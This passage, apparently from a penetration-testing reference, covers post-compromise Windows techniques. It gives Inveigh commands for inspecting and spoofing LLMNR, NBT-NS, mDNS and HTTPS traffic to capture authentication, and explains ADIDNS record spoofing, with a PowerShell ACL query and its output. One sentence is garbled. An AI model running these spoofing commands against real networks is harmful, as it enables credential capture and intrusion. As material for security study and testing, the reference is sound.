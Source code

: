 It can notably be used after the initial compromise of a Windows machine, and
offer some spoofing and capture functionalities even if being run as an
unprivileged user. While elevated privileges are required in order to capture
authentication requests over the `SMB` and `HTTPS` protocols, the spoofing
capabilities and capturing should work pra users will not

```
# Only inspects the LLMNR, NBT-NS and mDNS traffic with out spoofing responses.
Invoke-Inveigh -ConsoleOutput Y -Inspect
Invoke-Inveigh -ConsoleOutput Y -Inspect -IP <IP>
Invoke-Inveigh -ConsoleOutput Y -Inspect -IP <IP>

# Requires elevated privileges.
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP <IP>
```

###### ADIDNS spoofing

In an Active Directory environment, the Domain Controllers will usually expose
`DNS` services, that store their `DNS` zones in `Active
Directory Domain Services (AD DS)`. This `DNS` topology is known as
`Active Directory-Integrated DNS (ADIDNS)`.

The `DNS` zones replication to the different Domain Controllers is integrated
to the overall Active Directory replication process. In multi-site Active
Directory infrastructures, the replication between sites of `DNS` record
modification may take up to three hours.

The following `DNS`-specific application directory partitions are created
during `AD DS` installation:
  - A forest-wide application directory partition, called `ForestDnsZones`
  - Domain-wide application directory partitions for each domain in the forest,
  named `DomainDnsZones`

By default, any domain authenticated user may remotely add record
to an `ADIDNS` zone through `DNS dynamic updates` (`DNS` specific protocol),
thanks to the `CreateChild` right on the `DomainDnsZones` domain object.
Existing records can be updated or deleted by privileged domain groups, such as
the `Domain Admins`, `Enterprise Admins`, or `DnsAdmins` groups, as well as the
owner (by default the creator) of the record.

While requiring valid domain credentials and potentially waiting for a
replication time, spoofing `ADIDNS` records allows to target users and
computers across the domain with out being limited to the local subnetwork.

```
# New-PSDrive is necessary on out-of-the-domain systems, the AD should automatically be mapped otherwise whenever importing the ActiveDirectory PowerShell module
New-PSDrive -Name AD -PSProvider ActiveDirectory -Server "<DC_IP>"

# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example
Get-ACL "DC=<DOMAIN_FQDN>,CN=MicrosoftDNS,DC=DomainDNSZones,<DOMAIN_ROOT_OBJECT>" | Select -ExpandProperty Access | ? IdentityReference -match "Authenticated Users"

  ActiveDirectoryRights : CreateChild
  InheritanceType       : None
  ObjectType            : 00000000-0000-0000-0000-000000000000
  InheritedObjectType   : 00000000-0000-0000-0000-000000000000
  ObjectFlags           : None
  AccessControlType     : Allow
  IdentityReference     : NT AUTHORITY\Authenticated Users
  IsInherited           : False
  InheritanceFlags      : None
  PropagationFlags      : None
```
